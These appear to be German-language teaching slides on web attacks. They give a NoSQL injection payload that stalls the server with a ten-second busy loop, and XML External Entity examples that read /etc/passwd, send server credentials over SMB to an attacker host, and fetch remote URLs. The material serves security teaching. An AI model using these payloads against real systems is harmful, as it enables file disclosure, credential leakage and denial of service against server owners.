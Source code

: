 ## NoSQL: Attack pattern

``` javascript
# attack: $userInput auf folgenden Wert setzen
(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})()

# schöner formattiert
(function(){
  var date = new Date();
  do{ curDate = new Date();}while(curDate-date<10000);
  return Math.max();
})()
```

# XML External Entities

## Grundproblem

* XML Dateien müssen serverseitig bearbeitet werden
* XML Parser sind komplex
* Es können Remote Ressourcen eingebunden werden

## Beispiel: reading files

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

## Beispiel: reading Shares

Es werden die Token des Serverbenutzers verwendet.

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "smb://www.attacker.com" >]>
<foo>&xxe;</foo>
```


## Beispiel: reading URLs

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.seite-gegen-das-verbotsgesetz.com/text.txt" >]>
<foo>&xxe;</foo>
```
